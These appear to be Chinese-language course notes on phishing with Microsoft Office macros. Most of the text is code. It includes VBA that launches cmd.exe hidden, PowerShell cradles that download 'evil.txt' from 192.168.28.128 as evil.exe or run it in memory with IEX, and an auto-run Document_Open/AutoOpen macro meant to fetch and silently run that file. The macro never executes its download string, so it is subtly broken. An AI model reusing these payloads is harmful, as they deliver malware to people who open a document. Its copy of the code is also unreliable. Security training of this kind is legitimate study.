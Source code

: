 # 3.2 Phishing With Microsoft Office

## 3.2.1 Installing Microsoft Office

讲解怎么安装office，略.

### 3.2.1.1 Exercise

## 3.2.2 Introduction to VBA

利用宏打开cmd的几种方式

```vb
visual basic
str = "cmd.exe"
1. Shell str, vbHide
2. CreateObject("Wscript.Shell").Run str, 0
```

自动打开

## 3.2.2.1 Exercises

Environ("computername") 获得电脑名
Environ("username") 获得用户名

## 3.2.3 Let PowerShell Help Us

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```

在VBA中
```vb
Sub Document_Open()
	MyMacro
End Sub
-----------------------------------------
Sub AutoOpen()
	MyMacro
End Sub
-----------------------------------------
Sub MyMacro()
	Dim str As string
	str = "powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')"
	Dim exePath As String
	exePath = ActiveDocument.Path + "\evil.exe"
	Wait(3)
	shell exePath,vbhide
End Sub
-----------------------------------------
Sub Wait(n as Long)
	Dim t as Date
	t = Now
	Do 
		DoEvents
	Loop Until Now >= DateAdd("s",n,t)
End Sub
```

### 3.2.3.1 Exercises